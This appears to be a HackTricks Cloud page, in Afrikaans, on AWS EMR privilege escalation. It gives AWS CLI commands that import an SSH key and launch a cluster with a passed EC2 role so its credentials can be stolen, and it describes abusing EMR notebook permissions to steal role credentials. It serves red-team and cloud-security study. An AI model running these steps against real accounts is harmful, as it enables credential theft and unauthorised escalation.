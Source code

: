 # AWS - EMR Privesc

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## EMR

Meer **inligting oor EMR** in:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

'n Aanvaller met hierdie toestemmings kan 'n nuwe EMR-kluster **uitvoer met gehegde EC2-rolle** en probeer om die geloofsbriewe daarvan te steel.\
Let daarop dat jy hiervoor 'n **SSH-privésleutel moet ken wat ingevoer is in die rekening** of een moet invoer, en in staat moet wees om **poort 22 in die meester-node oop te maak** (jy kan dit moontlik doen met die eienskappe `EmrManagedMasterSecurityGroup` en/of `ServiceAccessSecurityGroup` binne `--ec2-attributes`).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Let daarop hoe 'n **EMR rol** gespesifiseer word in `--service-role` en 'n **ec2 rol** gespesifiseer word in `--ec2-attributes` binne `InstanceProfile`. Hierdie tegniek maak egter slegs die diefstal van die EC2 rol se legitimasie moontlik (aangesien jy via ssh sal verbind), maar nie die EMR IAM Rol nie.

**Potensiële Impak:** Privilege-escalation na die gespesifiseerde EC2 diensrol.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

Met hierdie toestemmings kan 'n aanvaller na die **AWS-konsole** gaan, 'n Notaboek skep en dit toegang om die IAM Rol te steel.

{% hint style="danger" %}
Selfs as jy 'n IAM-rol aan die notaboekinstansie heg, het ek in my toetse opgemerk dat ek in staat was om AWS-bestuurde legitimasie te steel en nie legitimasie wat verband hou met die IAM-rol nie.
{% endhint %}

**Potensiële Impak:** Privilege-escalation na AWS-bestuurde rol arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

Net met hierdie toestemming sal 'n aanvaller toegang hê tot die **Jupyter Notaboek en die IAM-rol** wat daaraan gekoppel is, steel.\
Die URL van die notaboek is `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
Selfs as jy 'n IAM-rol aan die notaboekinstansie heg, het ek in my toetse opgemerk dat ek in staat was om AWS-bestuurde legitimasie te steel en nie legitimasie wat verband hou met die IAM-rol nie.
{% endhint %}

**Potensiële Impak:** Privilege-escalation na AWS-bestuurde rol arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien hoe jou **maatskappy geadverteer word in HackTricks** of **HackTricks in PDF aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

